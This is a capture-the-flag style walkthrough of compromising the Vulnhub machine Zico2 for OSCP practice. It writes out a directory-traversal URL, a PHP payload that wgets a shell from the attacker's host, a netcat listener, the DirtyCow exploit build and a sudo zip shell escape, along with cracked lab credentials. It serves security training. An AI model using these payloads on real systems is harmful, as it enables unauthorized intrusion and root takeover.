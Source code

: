 
Vulnhub virtual machine; One of the last of my vulnhub boxes from the OSCP prep list. Zico2, used enumeration to find an admin login, which used basic credentials to enter. Used the backend to use php to download a reverse shell which led to privesc with dirtycow and zip.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


Search for VM on network

    netdiscover -r 192.168.56.0/24

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255581402_image.png)


Target: 192.168.56.122


# Enumeration 

Nmap Scan:

    nmap -sV -sC -oA nmap/zico2.nmap 192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255688088_image.png)


Interesting Ports:
80 - webserver
111 - unknown at this point
22 - ssh (front door)

Investigate port 80

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255777091_image.png)


checking out source:


![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255897525_image.png)


*nothing of immediate interest.*

navigating around site page is based off a php backend which could be of use in the future for a reverse php shell.

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255978376_image.png)


Test for directory traversal with an escape

    http://192.168.56.122/view.php?page=../../../../../../etc/passwd

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256606045_image.png)


now we have an idea of users. Saved the passwd locally to folder and parsed for just user that have the ability to use sh.

    cat passwd | grep /bin/.*sh > sh.userlist

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256885725_image.png)


*at the end just appened the users to sh.userlist*




## Gobuster
    gobuster -u 192.168.56.122 -w /usr/share/seclists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -e

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256116071_image.png)


`/dbadmin/` accessible:

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256991977_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257027322_image.png)


we found a web application name and version number along with a password field.
testing generic passwords

    password
    zico
    admin


Password: Admin # Lets take a second and talk about how this is a terrible password.

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257822213_image.png)


*“were in!”* 


Investgate the `/usr/databases/test_users` click the info button

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555258630237_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555258642957_image.png)


looks like MD5 hashes - decrypted with https://www.md5online.org/md5-decrypt.html

    root: 34kroot34
    zico: zico2215@

quick attempt to SSH using credentials — No-Go 


## searchsploit
    searchsploit phpliteadmin

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257628716_image.png)


mirror `24044.txt`

    searchploit -m exploits/php/webapps/24044.txt

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257699428_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257876972_image.png)


Looks like we can create a new database and move to upload a reverse shell.


created a database name `execwashere.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259143852_image.png)


create table named `gimmeshell` with Number of Fields: `1`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259266747_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259447971_image.png)


used `test` for the name, selected `TEXT` and inserted the default value  `<?php phphinfo(); ?>`

navigated to location of execwashere.php

    http://192.168.56.122/view.php?page=../../../usr/databases/execwashere.php

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259657390_image.png)


Lets go input a reverse php shell since we know we can access `/usr/databases` by creating a new database named `test.php`

    <?php system("cd /usr/databases/; wget http://192.168.56.102:8000/phpshell.php"); ?>

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323507878_image.png)



launch our reverse shell via `phpshell.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318152692_image.png)


Setup Listener

    nc -lvnp 9000
![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555320772957_image.png)



## dirtycow

uname inspect

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318538227_image.png)


This version is [dirtycow](https://dirtycow.ninja/) susceptible.

download the dirty.c exploit from https://www.exploit-db.com/exploits/40839
setup up webserver and wget from box

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555321891441_image.png)

    wget http://192.168.56.102:8000/dirty.c

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555321869991_image.png)


Compile

    gcc -pthread dirty.c -o dirty -lcrypt

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555322047103_image.png)



----------
# Priv-Esc

navigate `/home/zico/` discovered `wordpress` and `wp-config.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318229977_image.png)


we now found credentials for zico

    zico:sWfCsfJSPV9H3AmQzw8

attempt SSH with credentials:

    ssh zico@192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318341067_image.png)


check permissions:

    sudo -l

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323321433_image.png)

# Root&Loot

Taking advantage of `zip` to elevate to root

    sudo zip /tmp/test.zip /home/zico/wordpress -T --unzip-command="sh -c /bin/bash"

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323397092_image.png)


connect to dirtycow’d SSH

    ssh firefart@192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555322182994_image.png)



“Bring me the root” -exec

